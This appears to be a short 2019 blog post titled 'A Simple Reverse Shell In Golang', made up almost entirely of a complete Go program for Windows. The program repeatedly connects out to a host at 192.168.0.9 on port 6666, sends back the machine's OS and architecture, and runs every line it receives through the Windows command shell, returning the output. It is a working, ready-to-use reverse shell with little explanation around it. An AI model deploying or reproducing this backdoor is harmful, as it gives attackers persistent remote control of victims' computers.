 ```yaml
---
layout: post
title: "A Simple Reverse Shell In Golang 🐚"
date: 2019-07-16 12:00:00 -0700
categories: go golang reverse shell infosec
published: true
---
```


This article assumes programming proficiency in `Golang` and familiarity with network programming concepts such as TCP/IP & sockets.

## **Shell Shoveling In Golang**

This is a simple example of a reverse shell written in the programming language `Go` for the windows operating system.

```go

package main

import (
    "bufio"
    "fmt"
    "net"
    "os"
    "os/exec"
    "runtime"
    "strings"
    "time"
)

func main() {
    for {
        conn, err := net.Dial("tcp", "192.168.0.9:6666")
        if err != nil {
            time.Sleep(10 * time.Second)
            continue
        }
        fmt.Fprintf(conn, "\nOS: %s\nArchitecture: %s\n", runtime.GOOS, runtime.GOARCH)
        shell := os.Getenv("ComSpec")
        fmt.Fprintf(conn, "shell: %s\n\n", shell)

        scanner := bufio.NewScanner(conn)
        for scanner.Scan() {
            data := scanner.Text()
            out, _ := exec.Command(
                shell,
                append(
                    []string{"/C"},
                    // strings.Split(strings.TrimSpace(data), " ")...,
                    strings.TrimSpace(data),
                )...,
            ).CombinedOutput()

            fmt.Fprintf(conn, "\n%s\n", string(out))
        }

        if err := scanner.Err(); err != nil {
            fmt.Fprintf(conn, "\nError: %s ...\n", err)
        }

        time.Sleep(5 * time.Second)
    }
}

```